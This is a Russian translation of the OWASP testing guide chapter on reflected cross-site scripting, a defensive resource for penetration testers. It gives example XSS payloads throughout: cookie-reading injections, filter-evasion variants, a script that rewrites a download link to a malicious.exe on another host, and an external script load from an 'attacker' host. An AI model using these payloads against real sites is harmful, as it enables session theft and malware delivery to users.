 # Тестирование для отраженного кросс-сайта

| ID |
| ------------- |
| WSTG-INPV-01 |

## Резюме

Отраженный [Cross-site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) происходят, когда злоумышленник вводит исполняемый код браузера в один HTTP-ответ. Инъекционная атака не сохраняется в самом приложении; оно непостоянно и влияет только на пользователей, которые открывают злонамеренно созданную ссылку или стороннюю веб-страницу. Строка атаки включена как часть созданных параметров URI или HTTP, неправильно обработана приложением и возвращена жертве.

Отраженные XSS являются наиболее частым типом XSS-атак, встречающихся в дикой природе. Отраженные атаки XSS также известны как непостоянные атаки XSS, и, поскольку полезная нагрузка атаки доставляется и выполняется с помощью одного запроса и ответа, они также называются XSS первого порядка или типа 1

Когда веб-приложение уязвимо для этого типа атаки, оно передает неподтвержденный ввод, отправленный через запросы, обратно клиенту. Общий способ действия атаки включает этап проектирования, в котором злоумышленник создает и тестирует нарушающий URI, шаг социальной инженерии, в котором она убеждает своих жертв загрузить этот URI в своих браузерах, и возможное выполнение кода оскорбления с использованием браузера жертвы.

Обычно код злоумышленника пишется на языке JavaScript, но также используются другие языки сценариев, например,.ActionScript и VBScript. Атакующие обычно используют эти уязвимости для установки регистраторов ключей, кражи файлов cookie жертв, кражи буфера обмена и изменения содержимого страницы (например,., скачать ссылки).

Одной из основных трудностей в предотвращении уязвимостей XSS является правильное кодирование символов. В некоторых случаях веб-сервер или веб-приложение не могли фильтровать некоторые кодировки символов, поэтому, например, веб-приложение может отфильтровывать `<script> `, но не может фильтровать`% 3cscript% 3e`, который просто включает другая кодировка тегов.

## Цели теста

- Определите переменные, которые отражены в ответах.
- Оцените входные данные, которые они принимают, и кодировку, которая применяется при возврате (если есть).

## Как проверить

### Тестирование черного ящика

Тест черного ящика будет включать как минимум три этапа:

#### Обнаружение векторов ввода

Обнаружение входных векторов. Для каждой веб-страницы тестер должен определить все пользовательские переменные веб-приложения и способы их ввода. Это включает в себя скрытые или неочевидные входы, такие как параметры HTTP, данные POST, значения полей скрытой формы и предварительно определенные значения радио или выбора. Обычно в браузере используются редакторы HTML или веб-прокси для просмотра этих скрытых переменных. Смотрите пример ниже.

#### Анализировать входные векторы

Проанализируйте каждый входной вектор, чтобы обнаружить потенциальные уязвимости. Чтобы обнаружить уязвимость XSS, тестер обычно использует специально созданные входные данные с каждым входным вектором. Такие входные данные обычно безвредны, но вызывают ответы от веб-браузера, которые проявляют уязвимость. Тестирование данных может быть сгенерировано с помощью размыкателя веб-приложений, автоматического предварительно определенного списка известных строк атаки или вручную.
  Некоторым примером таких входных данных являются следующие:

- `<script>alert(123)</script>`
- `"><script>alert(document.cookie)</script>`

Полный список потенциальных тестовых строк см. В [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

#### Проверьте Воздействие

Для каждого ввода теста, предпринятого на предыдущем этапе, тестер проанализирует результат и определит, представляет ли он уязвимость, которая реально влияет на безопасность веб-приложения. Это требует изучения полученной веб-страницы HTML и поиска тестовых данных. После обнаружения тестер идентифицирует любые специальные символы, которые не были должным образом закодированы, заменены или отфильтрованы. Набор уязвимых нефильтрованных специальных символов будет зависеть от контекста этого раздела HTML

В идеале все специальные символы HTML будут заменены объектами HTML. Ключевые объекты HTML для идентификации:

- `>` (greater than)
- `<` (less than)
- `&` (ampersand)
- `'` (apostrophe or single quote)
- `"` (double quote)

Однако полный список объектов определяется спецификациями HTML и XML. [Wikipedia has a complete reference](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references).

Wв контексте действия HTML или кода JavaScript потребуется экранировать, кодировать, заменять или отфильтровать другой набор специальных символов. Эти символы включают в себя:

- `\n` (new line)
- `\r` (carriage return)
- `'` (apostrophe or single quote)
- `"` (double quote)
- `\` (backslash)
- `\uXXXX` (unicode values)

Для более полной ссылки см [Mozilla JavaScript guide](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Values,_variables,_and_literals#Using_special_characters_in_strings).

#### Пример 1

Например, рассмотрим сайт с приветственным уведомлением `Welcome %username%` и ссылкой для скачивания.

![XSS Example 1](images/XSS_Example1.png)\
*Figure 4.7.1-1: XSS Example 1*

Тестер должен подозревать, что каждая точка ввода данных может привести к атаке XSS. Чтобы проанализировать это, тестер будет играть с пользовательской переменной и попытаться вызвать уязвимость.

Давайте попробуем нажать на следующую ссылку и посмотрим, что произойдет:

```text
http://example.com/index.php?user=<script>alert(123)</script>
```

Если дезинфекция не применяется, это приведет к следующему всплывающему сообщению:

![Alert](images/Alert.png)\
*Figure 4.7.1-2: XSS Example 1*

Это указывает на то, что существует уязвимость XSS, и кажется, что тестер может выполнить код по своему выбору в любом браузере, если он нажимает на ссылку тестера.

#### Пример 2

Давайте попробуем другой кусок кода (ссылка) :

```text
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexample.com/malicious.exe";}</script>
```

Это производит следующее поведение:

![XSS Example 2](images/XSS_Example2.png)\
*Figure 4.7.1-3: XSS Example 2*

Это заставит пользователя, щелкнув по ссылке, предоставленной тестером, загрузить файл `malicious.exe` с сайта, который он контролирует.

### Обход фильтров XSS

Отраженные межсайтовые атаки сценариев предотвращаются, поскольку веб-приложение дезинфицирует ввод, брандмауэр веб-приложения блокирует вредоносный ввод или с помощью механизмов, встроенных в современные веб-браузеры. Тестер должен проверить наличие уязвимостей, предполагая, что веб-браузеры не предотвратят атаку. Браузеры могут быть устаревшими или иметь отключенные встроенные функции безопасности. Точно так же брандмауэры веб-приложений не гарантированно распознают новые, неизвестные атаки. Злоумышленник может создать строку атаки, которая не распознается брандмауэром веб-приложения.

Таким образом, большая часть профилактики XSS должна зависеть от дезинфекции веб-приложения ненадежным пользовательским вводом. Разработчикам доступно несколько механизмов для дезинфекции, таких как возврат ошибки, удаление, кодирование или замена недопустимого ввода. Средства, с помощью которых приложение обнаруживает и исправляет неверный ввод, являются еще одним основным недостатком в предотвращении XSS. Список отказов может не включать все возможные строки атаки, список разрешений может быть чрезмерно разрешающим, дезинфекция может потерпеть неудачу, или тип ввода может быть неправильно доверен и оставаться несанитизованным. Все это позволяет злоумышленникам обойти фильтры XSS.

The [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) документы общих испытаний на уклонение от фильтра.

#### Пример 3: Значение атрибута тега

Поскольку эти фильтры основаны на списке запретов, они не могут блокировать все типы выражений. Фактически, есть случаи, когда эксплойт XSS может выполняться без использования тегов <script> `и даже без использования символов, таких как` <` и `> `, которые обычно фильтруются.

Например, веб-приложение может использовать значение ввода пользователя для заполнения атрибута, как показано в следующем коде:

```html
<input type="text" name="state" value="INPUT_FROM_USER">
```

Затем злоумышленник может отправить следующий код:

```text
" onfocus="alert(document.cookie)
```

#### Пример 4: Другой синтаксис или кодирование

В некоторых случаях возможно, что фильтры на основе подписи могут быть просто побеждены путем запутывания атаки. Как правило, вы можете сделать это путем вставки неожиданных изменений в синтаксис или в сопряжение. Эти изменения допускаются браузерами как действительный HTML при возврате кода, и все же они также могут быть приняты фильтром.

Следуя некоторым примерам:

- `"><script >alert(document.cookie)</script >`
- `"><ScRiPt>alert(document.cookie)</ScRiPt>`
- `"%3cscript%3ealert(document.cookie)%3c/script%3e`

#### Пример 5: Обход нерекурсивной фильтрации

Иногда дезинфекция применяется только один раз, и она не выполняется рекурсивно. В этом случае злоумышленник может победить фильтр, отправив строку, содержащую несколько попыток, например, эту :

```text
<scr<script>ipt>alert(document.cookie)</script>
```

#### Пример 6: Включая внешний скрипт

Теперь предположим, что разработчики целевого сайта внедрили следующий код для защиты ввода от включения внешнего скрипта:

```php
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```

Разделение вышеуказанного регулярного выражения:

1. Проверьте для `<script`
2. Проверьте на "" (белое пространство)
3. Любой символ, кроме символа `> ` для одного или нескольких вхождений
4. Проверьте на `src`

Это полезно для фильтрации выражений типа `<script src="http://attacker/xss.js"></ script> `, что является обычной атакой. Но в этом случае можно обойти дезинфекцию, используя символ `> ` в атрибуте между script и src, например:

```text
http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

Это будет использовать отраженную уязвимость скриптов кросс-сайтов, показанную ранее, выполняя код JavaScript, сохраненный на веб-сервере злоумышленника, как если бы он был создан с веб-сайта жертвы, `http: // example /`.

#### Пример 7: Загрязнение параметров HTTP (HPP)

Другим методом обхода фильтров является загрязнение параметров HTTP, этот метод был впервые представлен Стефано ди Паола и Лукой Кареттони в 2009 году на конференции OWASP в Польше. См. [Тестирование на загрязнение параметров HTTP](04-Testing_for_HTTP_Parameter_Pollution.md) для получения дополнительной информации. Эта техника уклонения состоит из разделения вектора атаки между несколькими параметрами, имеющими одно и то же имя. Манипулирование значением каждого параметра зависит от того, как каждая веб-технология анализирует эти параметры, поэтому этот тип уклонения не всегда возможен. Если тестируемая среда объединяет значения всех параметров с одним и тем же именем, то злоумышленник может использовать эту технику, чтобы обойти механизмы безопасности на основе шаблонов.
Регулярная атака:

```text
http://example/page.php?param=<script>[...]</script>
```

Атака с использованием HPP:

```text
http://example/page.php?param=<script&param=>[...]</&param=script>
```

Смотрите [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) для более подробного списка методов уклонения от фильтров. Наконец, анализ ответов может стать сложным. Простой способ сделать это - использовать код, который открывает диалоговое окно, как в нашем примере. Это обычно указывает на то, что злоумышленник может выполнить произвольный JavaScript по своему выбору в браузерах посетителей.

### Тестирование серой коробки

Тестирование серого ящика похоже на тестирование черного ящика. В тестировании «серой коробки» у мастера-ручки есть частичные знания о применении. В этом случае информация о пользовательском вводе, элементах управления проверкой ввода и о том, как пользовательский ввод возвращается пользователю, может быть известна настройщику.

Если доступен исходный код (тестирование в белом ящике), все переменные, полученные от пользователей, должны быть проанализированы. Кроме того, тестер должен проанализировать любые процедуры дезинфекции, чтобы решить, можно ли их обойти.

## Tools

- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoder/) helps you encode arbitrary texts to and from 65 kinds of character sets that you can use in your customized payloads.
- [Hackvertor](https://hackvertor.co.uk/public) is an online tool which allows many types of encoding and obfuscation of JavaScript (or any string input).
- [XSS-Proxy](http://xss-proxy.sourceforge.net/) is an advanced Cross-Site-Scripting (XSS) attack tool.
- [ratproxy](https://code.google.com/archive/p/ratproxy/) is a semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- [Burp Proxy](https://portswigger.net/burp/) is an interactive HTTP/S proxy server for attacking and testing web applications.
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org) is an interactive HTTP/S proxy server for attacking and testing web applications with a built-in scanner.

## References

### OWASP Resources

- [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Books

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3

### Whitepapers

- [CERT - Malicious HTML Tags Embedded in Client Web Requests](https://resources.sei.cmu.edu/asset_files/WhitePaper/2000_019_001_496188.pdf)
- [cgisecurity.com - The Cross Site Scripting FAQ](https://www.cgisecurity.com/xss-faq.html)
- [G.Ollmann - HTML Code Injection and Cross-site scripting](http://www.technicalinfo.net/papers/CSS.html)
- [S. Frei, T. Dübendorfer, G. Ollmann, M. May - Understanding the Web browser threat](https://www.techzoom.net/Publications/Insecurity-Iceberg)
